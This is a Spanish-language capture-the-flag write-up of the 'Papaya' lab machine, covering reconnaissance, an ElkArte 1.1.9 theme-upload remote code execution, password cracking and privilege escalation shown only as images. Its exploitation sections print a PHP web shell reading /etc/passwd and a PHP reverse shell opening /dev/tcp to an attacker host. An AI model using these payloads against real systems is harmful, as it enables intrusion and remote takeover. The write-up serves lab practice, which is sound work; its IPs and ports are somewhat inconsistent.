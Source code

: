 # CTF - The Hackers Labs - Papaya

## 📑 Información General

- **Nombre:** Papaya
- **Dificultad:** Fácil
- **SO:** #Linux
- **Vulnerabilidad principal:** RCE (Remote Code Execution)
- **Fecha resolución:** 06/06/2025
- **MD5:** 855d57fe8086baf60cce4c69bfbd6ee1
- **Enlace:** https://thehackerslabs.com/papaya/

>[!tip] Objetivo
>Obtener las flags: 
> - 🚩 user.txt 
> - 🚩 root.txt

## 🔎 Reconocimiento

### Escaneo inicial

IP máquina víctima: **192.168.10.19**

Comprobamos la conectividad enviando un paquete `icmp` a dicha máquina. Además, en función del TTL sabremos distinguir el SO instalado en la misma. Dado que su TTL es 64, estamos frente a una máquina **Linux**.

![[papaya (1).png]]

### Escaneo de Puertos

A continuación, proseguimos con un escaneo de puertos. El resultado revela que los puertos **21**, **22** y **80** se encuentran abiertos y accesibles. Además, el escaneo devuelve un fichero encontrado en el directorio compartido mediante FTP llamado **secret.txt**.

```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.10.19
```

![[papaya (2).png]]

### Enumeración de Servicios

| Puerto | Servicio |    Versión    |         Notas         |
| ------ | -------- |:-------------:|:---------------------:|
| 21     | FTP      |       -       | Permite login anónimo |
| 22     | SSH      | OpenSSH 9.2p1 |           -           |
| 80     | HTTP     | Apache 2.4.59 |     Servidor web      |

## 🌐 Exploración

### FTP

Accedemos primero al servicio FTP para analizar el fichero **secret.txt** que tenemos a nuestro alcance. Como el servicio permite el login anónimo, no necesitaremos credenciales para poder iniciar sesión y descargar el fichero.

![[papaya (3).png]]

El fichero contiene la siguiente cadena:

![[papaya (4).png]]

A primera vista, no parece ser un hash ni una codificación estándar. De hecho, la inclusión de la letra `ñ` me da a entender que el texto está en español y la estructura del cifrado me recuerda a un cifrado de sustitución, seguramente **Caesar**, así que intento descifrarlo mediante fuerza bruta con una herramienta de internet llamada [DCode](https://www.dcode.fr/cifrado-cesar) y descubro que con 13 desplazamientos aparece un texto que nos indica que no sigamos explorando por aquí. 

Así pues, pasamos a analizar el sitio web.

![[papaya (5).png]]

### Reconocimiento Web

![[papaya (6).png]]

Al escribir la IP de la máquina víctima, nos redirigirá automáticamente al dominio `papaya.thl`. Lo añadimos a `/etc/hosts` para que haga la resolución correctamente y podamos acceder a ella. Escribimos el siguiente comando en la terminal:

```bash
echo '192.168.1.15 papaya.thl' >> /etc/hosts
```

Recargamos la página y esta vez sí tenemos acceso al sitio web. Vemos que estamos ante un foro cuyo sistema de gestión de contenidos es `ElkArte 1.1.9`. 

> Elkarte es un foro web gratuito y de código abierto, basado originalmente en Simple Machines Forum (SMF). Está escrito en PHP y utiliza bases de datos MySQL/MariaDB. Es una plataforma moderna y ligera, diseñada para ser fácil de usar y extensible.

Buscamos información sobre el CMS `ElkArte` en **Exploit-DB** y descubrimos que esta versión en concreto es vulnerable a exploits **RCE (Remote Code Execution)**. Más información en: https://www.exploit-db.com/exploits/52026

Seguiremos los pasos explicados en el enlace anterior.

En primer lugar, necesitaremos acceder como el usuario `admin` y subir un fichero malicioso en el apartado `Themes`.


Creamos un fichero malicioso llamado `test.php` que tendrá el siguiente contenido:

```bash
<?php system('cat /etc/passwd'); ?>
```

Lo comprimimos ejecutando `zip test.zip test.php` y lo cargamos en el instalador de temas del sitio web.

![[papaya (7).png]]

Ahora, abrimos el fichero desde el navegador accediendo a la siguiente ruta:

![[papaya (8).png]]

## ⚔️ Explotación

Una vez comprobemos que la ejecución ha sido un éxito, configuramos un **payload** con la ayuda de  https://www.revshells.com/ y volvemos a repetir el procedimiento. El contenido del fichero `test.php` será el siguiente:

```bash
<?php system('bash -c "sh -i >& /dev/tcp/192.168.10.22/4445 0>&1"'); ?>
```

Ponemos la máquina atacante en modo escucha con el comando `nc -lvnp 4444` y accedemos nuevamente al fichero desde la url. Se nos abrirá una terminal con el usuario **www-data**. Hacemos un tratamiento de la TTY para poder navegar de forma cómoda por el sistema. 

Visualizamos el fichero `/etc/passwd` y encontramos algunos usuarios, entre ellos el usuario **papaya**.

![[papaya (9).png]]


Listamos algunos directorios y encontramos un fichero en `/opt` llamado **pass.zip**.  Nos movemos al directorio en cuestión y levantamos un servicio web con `python` ejecutando el siguiente comando:

```bash
python3 -m http.server 8080
```

![[papaya (10).png]]

Desde nuestra máquina atacante, hacemos un `wget` del fichero para descargarlo. Intentamos descomprimirlo, pero parece que tiene una contraseña. Para descifrarla, haremos uso de la herramienta **John The Ripper**. Ejecutamos los siguientes comandos para extraer el hash de la contraseña y hacerle un ataque de fuerza bruta:

![[papaya (11).png]]

![[papaya (12).png]]

La contraseña de `pass.zip` es **jesica**. Volvemos a descomprimir el fichero, esta vez con utilizando las credenciales que hemos obtenido y visualizamos el fichero que contiene. Es otra contraseña, seguramente del usuario **papaya**.

![[papaya (13).png]]

Ahora, iniciaremos sesión con estas credenciales en la máquina víctima mediante el **protocolo SSH**.

![[papaya (14).png]]

🚩 **Flag de user encontrada.**

## 🔐Escalada de Privilegios

![[papaya (15).png]]

![[papaya (16).png]]

![[papaya (17).png]]

🚩 **Flag de root encontrada.**